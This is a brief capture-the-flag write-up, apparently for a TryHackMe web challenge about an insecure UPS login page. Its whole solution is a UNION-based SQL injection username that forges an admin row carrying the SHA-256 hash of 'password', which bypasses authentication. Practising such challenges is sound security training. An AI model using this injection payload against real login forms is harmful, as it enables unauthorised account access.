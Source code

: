 ```yaml
---
title: "Uninterrupted Problem Supply"
categories: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 30
solves: -1
flags: THM{REDACTED}
---
```

> Virelia simply loves buying devices from Mechacore. Their most recent acquisition is a UPS unit. Mechacore promised the login page was 100% secure. Let's see if it can keep us out.

---

Username: ' UNION SELECT 1, 'admin', '5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8' -- 
Password: password
